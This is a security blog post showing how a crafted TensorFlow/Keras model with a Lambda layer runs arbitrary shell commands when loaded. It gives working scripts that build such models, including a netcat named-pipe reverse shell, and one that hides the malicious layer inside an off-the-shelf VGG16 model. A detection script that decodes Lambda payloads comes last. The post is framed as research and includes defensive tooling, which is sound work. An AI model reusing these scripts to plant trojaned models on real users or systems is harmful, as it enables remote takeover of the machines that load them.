


The purpose of this article is to show how to get RCE when a crafted malicious Tensorflow model is loaded. Remember all of this is for educational purposes only! Don't be mean!

## Tensorflow Models are Programs

This article is in no way reporting a vulnerability in the Tensorflow python module. As it can be read in the [SECURITY](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) section of the project, Tensorflow models should be treated as programs and thus from a security you should not load (run) untrusted models in your application. This because models are programs which Tensorflow's runtime interprets and executes.

## The Lambda Layer

Tensorflow Keras models are built using the "layers" which the library provides. While I will not be going into details about what layers are and how they work, you can think of layers as functions which take an input and return a result. These functions are "chained" so that the output of the a layer is the input of the next one. Sorry to all the Data Scientists that are currently crying after reading this paragraph. 

If you want to learn more about Tensorflow Keras layers you can have a read [here](https://www.tensorflow.org/api_docs/python/tf/keras/layers).

Most of the layers are useful operations which one might want to use in their Machine Learning model such as: `Conv2D`, `Dot` and `Dense` . So how can these be hijacked to achieve remote code execution? They can't (I however am looking into possible injections... stay updated for more.), as they do not allow for custom code to be executed. 


This is where the Lamba layer comes to save the day, *or ruin it depending on which side you're on...*



This layer allows to wrap **arbitrary Python expression** as a `Layer` object which can interact with the rest of the model.


A warning is also present in the Lambda layer documentation stating the de-serialization issues that we will try to exploit:



## Loading models

Models in Tensorflow and Keras can be exported so that they can be shared with other people. A model can be easily loaded like so:

```py
import tensorflow.keras

MODEL_PATH = "my_amazing_model.h5"

model = tensorflow.keras.models.load_model(MODEL_PATH)
```

That's all it takes for a malicious model the exploit the person loading it! This is a very common way of loading models, and while this is only dangerous when accepting untrusted models, you can find the usage on Github to be quite large: [https://github.com/search?l=Python&q=load_model&type=code](https://github.com/search?l=Python&q=load_model&type=code). 

## Getting the RCE

Since any Python code can be serialized we are able to import the library `os` and then execute whatever command we want.

```py
import tensorflow as tf

def exploit(x):
    import os
    os.system("touch /tmp/pwned")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

The most important part is the `Lambda` layer the other layer is just there for show. However in a real scenario this malicious layer would probably be hidden with tens of other legitimate layers in a working model so that no suspicions arise.

The script above will create an `exploit.h5` which when loaded will execute the serialized `exploit` function and create the file `/tmp/pwned`. You should note that when saving the model the `exploit` function will also be executed (aka don't put `rm -rf /` in there or you'll end up bricking your own box 😉).

Here is a demo with a reverse shell:

[](https://asciinema.org/a/6zGalbh7hesUuomvWiiGrg4b0)

```py
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Anything is possible with a good Machine Learning model these days! Even getting a reverse shell!

## Hiding the Malicious Lambda

Now let's try and embed the malicious layer into a regular model to turn it into our infected model. For this I picked an off-the-shelf model provided by Keras called VGG16, some state of the art image recognition model... but we don't care!

```py
from tensorflow import keras

image = keras.utils.load_img('dog.jpg', target_size=(224, 224))
image = keras.utils.img_to_array(image)
image = image.reshape((1, image.shape[0], image.shape[1], image.shape[2]))
image = keras.applications.vgg16.preprocess_input(image)
model = keras.applications.vgg16.VGG16()
yhat = model.predict(image)
label = keras.applications.vgg16.decode_predictions(yhat)
label = label[0][0]
print('%s (%.2f%%)' % (label[1], label[2]*100))
```

This is the code without injection, and when we give it a nice picture of a dog... it spits out a nice: `Doberman (36.76%)` .


Now let's inject it and see if it still works as it should! 

```py
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

lambdaLayer = tf.keras.layers.Lambda(exploit, name="output")

original = tf.keras.applications.vgg16.VGG16()
original.summary()

inp = original.input
original.layers.pop()

infected = tf.keras.models.Model(inp, lambdaLayer(original.layers[-1].output))

for layer in infected.layers:
    layer.trainable = False
    
infected.summary()
infected.save("infected.h5")
```

This script loads the VGG16 model from Keras and then embeds our malicious Lambda layer in the model. It is actually possible to embed a malicious layer in any Tensorflow machine learning model! However the model will not behave the same way as the original without first training it with the same data. Without the training we still achieve code execution, which is why I did not look further into making it more stealthy. 

In the future I am planning to research more about:

- Injecting the malicious layer in a trained model.
- Investigating the usage of the load_model function and the amount of implementations which use user input as an argument.
- Detecting if this technique is being used in the wild. 
- Investigating the security of other model layers.

## Detecting a Malicious Lambda

While crafting the malicious model I also was wandering if there could be an easy way to detect when a `Lambda` layer is used and what the serialized Python code is. Tensorflow models have a built in function called `model.summary()` which can be used to list all the layers present. However this can only be done after loading the model, not making it a safe option in this case. To solve this I decided to take a look at the `.h5` directly where the model structure and weights are stored, I came up with a simple script:


```py
import json
import re
import argparse
import base64

def detect(path):
    print("Checking model", path)

    with open(path, "rb") as f:
        content = f.read().decode("latin-1")
    
    body = re.search("{(.*)}", content).group()
    model = json.loads(body)
    found = 0
    for layer in model["config"]["layers"]:
        if layer['class_name'] != "Lambda":
            continue
        
        print("\nFound Lambda layer with name \"" + layer["config"]["name"] + "\"")
        
        func = layer["config"]["function"]
        print("With body function:")
        print("Raw base64:")
        print(func[0])
        decoded = base64.b64decode(func[0]).decode("latin-1")
        print("Decoded:")
        print(decoded)
        found += 1
    
    print("\nFound {} Lambda functions".format(found))
        
        
if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Detect malicious Tensorflow model")
    parser.add_argument("path", type=str, help="Path of the Tensorflow model")
    
    args = parser.parse_args()
    try:
        detect(args.path)
    
    except Exception as e:
        print("Failed to analyse for Lambda layers, don't give up!")
        print(e)
```

It turns out that the `h5` format stores some data in JSON format, specifically the model structure end layer details. So I am able to extract this part of the content with a simple regex and analyses it as normal JSON content. This allows me to extract the layer type, name as well as the special `function` parameter used by the `Lambda` layer which contains the base64 encoded serialized python code.


```
Checking model infected.h5

Found Lambda layer with name "output"
With body function:
Raw base64:
4wEAAAAAAAAAAAAAAAIAAAADAAAAQwAAAHMWAAAAZAFkAGwAfQF8AaABZAKhAQEAfABTACkDTukA
AAAA+lBybSAtZiAvdG1wL2Y7bWtub2QgL3RtcC9mIHA7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+
JjF8bmMgMTI3LjAuMC4xIDY2NjYgPi90bXAvZikC2gJvc9oGc3lzdGVtKQLaAXhyAwAAAKkAcgYA
AAD6Ji9ob21lL3RvYmlhL0Rlc2t0b3AvTGFtYmRhL3RyYW5zZmVyLnB52gdleHBsb2l0AwAAAHMG
AAAACAEKAQQB

Decoded:
ãCsddl}| d¡|S)NéúPrm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f)ÚosÚsystem)Úxr©rú&/home/tobia/Desktop/Lambda/transfer.pyÚexploits


Found 1 Lambda functions
```

Running this on the `infected.h5` model which also contains the VGG16 layers and weights, reveals the malicious payload.

All the scripts from this blogpost can be found in the Github repo: [https://github.com/Splinter0/tensorflow-rce](https://github.com/Splinter0/tensorflow-rce)